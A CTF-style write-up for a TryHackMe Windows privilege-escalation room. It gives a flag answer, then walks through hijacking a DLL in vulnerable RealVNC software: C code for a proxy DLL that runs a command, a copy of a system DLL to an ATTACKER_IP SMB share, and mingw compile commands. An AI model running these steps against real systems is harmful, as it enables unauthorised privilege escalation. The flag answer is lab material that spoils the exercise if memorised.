 ##   Answer the questions below

**Get the flag on the Administrator's desktop.**

- THM{SEFLAGPRIVILEGE}

* * *

## Task 7 - Abusing vulnerable software 

``wmic`` list software installed and versions
``wmic product get name,version,vendor``

Doing this on the target we can see its running RealVNC 6.8.0 and that has a privelede escalation vulnerability https://www.triskelelabs.com/realvnc-server-privilege-escalation.

**Create a Proxy DLL**

1. proxy.c

```c
#include <windows.h>

BOOL WINAPI DllMain(HMODULE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    if (fdwReason == DLL_PROCESS_ATTACH) {
            system("whoami > C:\\output.txt");
    }

    return TRUE;
}
```

2. proxy.def 

```c
EXPORTS
    Method1=C:/Windows/System32/original.dll.Method1 @1
    Method2=C:/Windows/System32/original.dll.Method2 @2
```

3. We need a list of all the exports available in the origional DLL we are replacing. Copy ``c:\Windows\System32\adsldpc.dll`` to our machine using ``smbserver.py``
- ``mkdir share``
- ``smbserver.py -smb2support -username thm-unpriv -password Password321 public share``
4. on the target machine cmd.exe ``copy C:\Windows\System32\adsldpc.dll \\ATTACKER_IP\public\`` to move it to our attacking machine.
5. copy modified room code to ``get_exports.py`` and run it with ``--target adsldpc.dll --origionalPath 'C:\Windows\System32\adsldpc.dll' > proxy.def``
6. compile the DLL with
- ``x86_64-w64-mingw32-gcc -m64 -c -Os proxy.c -Wall -shared -masm=intel``
- ``x86_64-w64-mingw32-gcc -shared -m64 -def proxy.def proxy.o -o proxy.dll``

##   Putting it All together**
